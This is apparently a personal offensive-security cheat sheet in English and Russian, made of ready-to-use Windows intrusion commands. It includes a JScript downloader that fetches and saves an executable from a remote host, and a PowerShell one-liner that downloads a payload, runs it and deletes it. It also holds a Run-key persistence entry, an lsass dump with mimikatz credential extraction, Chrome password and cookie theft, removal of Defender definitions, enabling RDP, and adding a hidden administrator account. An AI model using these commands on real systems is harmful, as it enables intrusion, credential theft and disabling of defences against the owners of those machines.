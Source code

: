 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

````
var  WinHttpReq  =  new  ActiveXObject ( "WinHttp.WinHttpRequest.5.1" ) ; 
WinHttpReq . Open ( "GET" ,  WScript . Arguments ( 0 ) ,  /*async=*/ false ) ; 
WinHttpReq . Send ( ) ; 
BinStream  =  new  ActiveXObject ( "ADODB.Stream" ) ; 
BinStream . Type  =  1 ;  BinStream . Open( ) ; 
BinStream . Write ( WinHttpReq . ResponseBody ) ; 
BinStream . SaveToFile ( "1.exe" ) ;

cscript /nologo 1.js http://192.168.1.192/Client.exe
````

````
WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
````
https://cloud.mail.ru/public/yp5y/tod8RWQqv
````
````
https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters

посмотреть процессы:

tasklist /V
tasklist /SVC

посомтреть АВ\

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
sc query windefend

удалить правила для ДЕФ

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

посмотреть установленные программы

reg query HKEY_LOCAL_MACHINE\SOFTWARE

ПОРТЫ открытые:

netstat -ano

порты для программ:
netsh firewall show state
netsh firewall show config


включить РДП

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed


net user hacker PASS /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

Авто загрузка управление

- https://www.thewindowsclub.com/manage-startup-items-windows-8

- https://www.techsupportall.com/how-to-disable-startup-programs-in-windows-10/#method4

-= https://community.spiceworks.com/topic/2140905-disabling-windows-startup-services-through-command-prompt

++ https://github.com/Faustvii/StartupManager
````
https://zer1t0.gitlab.io/posts/attacking_ad/
